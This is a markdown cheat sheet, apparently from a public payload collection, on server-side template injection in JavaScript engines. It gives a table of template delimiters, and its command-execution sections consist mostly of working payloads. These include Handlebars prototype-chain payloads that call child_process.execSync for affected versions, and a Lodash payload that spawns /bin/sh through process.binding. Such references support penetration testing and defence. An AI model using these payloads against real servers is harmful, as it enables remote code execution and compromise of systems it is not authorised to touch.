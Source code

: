 # Server Side Template Injection - JavaScript

> Server-Side Template Injection (SSTI)  occurs when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In the context of JavaScript, SSTI vulnerabilities can arise when using server-side templating engines like Handlebars, EJS, or Pug, where user input is integrated into templates without adequate sanitization.

## Summary

- [Templating Libraries](#templating-libraries)
- [Handlebars](#handlebars)
    - [Handlebars - Basic Injection](#handlebars---basic-injection)
    - [Handlebars - Command Execution](#handlebars---command-execution)
- [Lodash](#lodash)
    - [Lodash - Basic Injection](#lodash---basic-injection)
    - [Lodash - Command Execution](#lodash---command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| DotJS        | `{{= }}`  |
| DustJS       | `{}`      |
| EJS          | `<% %>`   |
| HandlebarsJS | `{{ }}`   |
| HoganJS      | `{{ }}`   |
| Lodash       | `{{= }}`  |
| MustacheJS   | `{{ }}`   |
| NunjucksJS   | `{{ }}`   |
| PugJS        | `#{}`     |
| TwigJS       | `{{ }}`   |
| UnderscoreJS | `<% %>`   |
| VelocityJS   | `#=set($X="")$X` |
| VueJS        | `{{ }}`   |

## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Basic Injection

```js
{{this}}
{{self}}
```

### Handlebars - Command Execution

This payload only work in handlebars versions, fixed in [GHSA-q42p-pg8m-cqh6](https://github.com/advisories/GHSA-q42p-pg8m-cqh6):

- `>= 4.1.0`, `< 4.1.2`
- `>= 4.0.0`, `< 4.0.14`
- `< 3.0.7`

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.require('child_process').execSync('id')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Lodash

[Official website](https://lodash.com/docs/4.17.15)
> A modern JavaScript utility library delivering modularity, performance & extras.

### Lodash - Basic Injection

How to create a template:

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** The template string.
- **options.interpolate:** It is a regular expression that specifies the HTML *interpolate* delimiter.
- **options.evaluate:** It is a regular expression that specifies the HTML *evaluate* delimiter.
- **options.escape:** It is a regular expression that specifies the HTML *escape* delimiter.

For the purpose of RCE, the delimiter of templates is determined by the **options.evaluate** parameter.

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>
```

### Lodash - Command Execution

```js
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

## References

- [Exploiting Less.js to Achieve RCE - Jeremy Buis - July 1, 2021](https://web.archive.org/web/20210706135910/https://www.softwaresecured.com/exploiting-less-js/)
- [Handlebars template injection and RCE in a Shopify app - Mahmoud Gamal - April 4, 2019](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

